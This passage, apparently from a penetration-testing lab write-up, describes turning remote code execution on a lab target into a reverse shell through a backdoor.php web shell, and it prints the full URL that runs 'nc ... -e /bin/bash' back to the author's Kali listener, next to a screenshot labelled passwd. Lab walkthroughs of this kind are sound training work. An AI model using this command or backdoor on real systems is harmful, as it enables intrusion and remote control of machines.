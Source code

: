 ![passwd](images/passwd.PNG "passwd")

Since we have access to remote code execution we can set up a reverse shell. On my Kali machine I set up a netcat listener on port 4444. And on Target 2, I connected to the same listener by navigating to the url `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`.


![reverse shell](images/reverseShell.PNG "reverse shell")
